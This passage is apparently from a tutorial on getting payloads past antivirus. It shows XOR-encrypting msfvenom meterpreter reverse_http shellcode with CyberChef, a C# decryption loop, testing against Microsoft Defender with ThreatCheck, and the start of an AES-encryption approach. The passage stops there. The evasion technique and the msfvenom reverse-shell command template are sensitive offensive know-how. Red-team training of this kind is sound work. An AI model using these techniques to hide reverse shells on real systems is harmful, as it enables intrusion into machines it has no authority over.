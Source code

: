 We can use this [CyberChef recipe](https://gchq.github.io/CyberChef/#recipe=From_Hex('0x%20with%20comma')XOR(%7B'option':'Hex','string':'5c'%7D,'Standard',false)To_Hex('0x%20with%20comma',0)) to `XOR` our shellcode with the value `0x5C` (make sure to get rid of new lines, as this breaks the recipe).

![image](5ss5hwsvxv9J.png)

We can replace the shellcode in the program with the output, and then add a short loop which `XORs` each byte with `0x5C` just before writing the shellcode to memory.

```csharp
<SNIP>

// XOR'd shellcode (msfvenom -p windows/x64/meterpreter/reverse_http LHOST=... LPORT=... -f csharp)
byte[] buf = new byte[] { <SNIP> }

// Allocate RW space for shellcode
<SNIP>

// Decrypt shellcode
int i = 0;
while (i < buf.Length)
{
    buf[i] = (byte)(buf[i] ^ 0x5c);
    i++;
}

// Copy shellcode into allocated space
<SNIP>

```

Although simple `XOR` encryption may have been enough to get past `antivirus` signature scans in the past, when we try to compile the program and then run `ThreatCheck` against it once more, we see that `Microsoft Defender Antivirus` still detects the shellcode:

![image](gnC20dMeohFT.png)

#### AES Encryption

An intriguing aspect of bypassing antivirus solutions is that it necessitates creativity, given the absence of a definitive method for achieving a specific objective—no "right" or "wrong" methods exist. In this case, `XOR-encrypting` the shellcode is not enough to bypass `Microsoft Defender Antivirus`, therefore, let's try something different, like `AES-encrypting` the shellcode instead. We can use another [CyberChef recipe](https://gchq.github.io/CyberChef/#recipe=From_Hex('0x%20with%20comma')AES_Encrypt(%7B'option':'Hex','string':'1f768bd57cbf021b251deb0791d8c197'%7D,%7B'option':'Hex','string':'ee7d63936ac1f286d8e4c5ca82dfa5e2'%7D,'CBC','Raw','Raw',%7B'option':'Hex','string':''%7D)To_Base64('A-Za-z0-9%2B/%3D')) to `AES encrypt` the shellcode (using an arbitrary key and IV).

![image](aWZHMcZLm04G.png)

After copying the output, the C# program will require a bit more modification than a simple loop, but the changes are pretty straight forward:
